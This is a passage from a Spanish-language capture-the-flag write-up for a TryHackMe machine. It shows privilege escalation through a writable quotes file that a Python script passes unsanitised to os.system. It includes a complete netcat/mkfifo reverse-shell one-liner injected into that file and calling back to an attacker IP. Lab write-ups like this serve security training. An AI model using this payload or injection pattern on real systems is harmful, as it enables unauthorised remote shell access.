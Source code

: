 ```
      % \ | %  ))   |
      %  \|%________|
       %%%%
Last login: Tue May 26 10:58:20 2020 from 192.168.247.1
                                                                               
Broadcast message from cage@national-treasure (somewhere) (Tue Apr 19 03:36:01 
                                                                               
I mean it, honey, the world is being Fed-exed to hell in a hand cart. — The Rock
                                                                               
```

## 3 Explotacion

- Ejecutamos ***linpeas*** y encontramo los siguientes archivos que pueden ser modificados

 ![](/assets/images/thm-writeup-break-out-the-cage/cage_linpeas.png)

/opt/.dads_scripts/.files
/opt/.dads_scripts/.files/.quotes

- Revisamos el script ***spread_the_quotes.py*** y observamos que es de solo lectura, pero toma los datos desl archivo ***.quotes***, el cual como vimos arriba si nos permite modificarlo.

```
weston@national-treasure:/opt/.dads_scripts$ cat spread_the_quotes.py 
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)

weston@national-treasure:/opt/.dads_scripts$ 
```


weston@national-treasure:/opt/.dads_scripts/.files$ echo "Nicolas; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.216 4444 >/tmp/f" > .quotes


## 4 Bandera de usuario
